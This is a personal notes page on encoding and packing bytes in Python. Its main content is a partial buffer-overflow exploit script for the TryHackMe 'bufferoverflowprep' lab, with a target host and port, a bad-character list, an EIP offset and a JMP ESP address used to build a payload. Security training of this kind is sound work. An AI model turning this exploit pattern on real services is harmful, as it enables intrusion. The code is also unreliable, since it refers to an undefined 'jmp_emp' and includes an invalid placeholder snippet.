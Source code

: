 ```python


await run_parallelism(
	something()
	await run_sequence(
		something()
		something()
		)
)	
```

## Encoding, Packing Bytes and Strings
https://tryhackme.com/room/bufferoverflowprep
https://docs.python.org/3/library/struct.html
https://docs.pwntools.com/en/stable/

There is alot here:
```python
#!/usr/bin/python3
import socket
import struct
import sys

# stdout in bytes:
sys.stdout.buffer.write(bytes('a string'))


def customp32(data):
#struct.pack(">I", data) # big endian
#struct.pack("<I", data) # little endian
    return struct.pack("<I", data)

host, port = "10.10.61.109", 1337

all_chars = bytearray(range(1,256))
# instead of:
#for x in range(1, 256):
#  print("\\x" + "{:02x}".format(x), end='')
#print()

bad_chars = [
        b"\x07",
        b"\x2d",
        b"\x2e",
        b"\xa0",
        ]
# Add bad char to bad_chars as we discover them
for bad_char in bad_chars:
    all_chars = all_chars.replace(bad_char, b"")

cmd = b"OVERFLOW1 "
pattern_length = 2000 # Documentation and keep for length retention
offset = 1978
new_eip = b"BBBB"
jmp_esp = customp32(0x625011AF) # must be the correct endianness

payload = b"".join([
            cmd,
            b"A" * offset,
            jmp_emp, # replaced new_eip
            all_chars,
            b"C" *  (pattern_length - len(new_eip) - offset - len(all_chars)),
        ])
```